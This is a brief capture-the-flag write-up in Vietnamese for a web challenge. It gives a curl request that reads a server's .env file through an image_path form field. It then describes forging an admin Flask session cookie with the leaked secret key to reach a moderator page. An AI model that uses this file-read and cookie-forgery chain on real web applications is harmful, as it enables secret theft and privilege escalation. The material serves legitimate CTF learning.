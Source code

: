# 1

Đọc file `.env` trong cái tag img bị ẩn

```
curl -i -b "session=.eJyrViotTi1SsqpWKsrPSVWygnB1wFReYi5IxCAlsdIhrSg1JaVSqbYWAJ4PENs.aFbuog.c7wi8BxJx-IPSE0QuPGWArMJcmc" -X POST https://silvercourt-of-ai-enhanced-wealth.gpn23.ctf.kitctf.de/note/new \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'title=read_env' \
  --data-urlencode 'content=x' \
  --data-urlencode 'image_path=.env'
```



# 2

Dùng cái flask secret key leak được từ file .env -> tạo cookie đểu giả làm admin -> vào /moderator -> xem juicy note

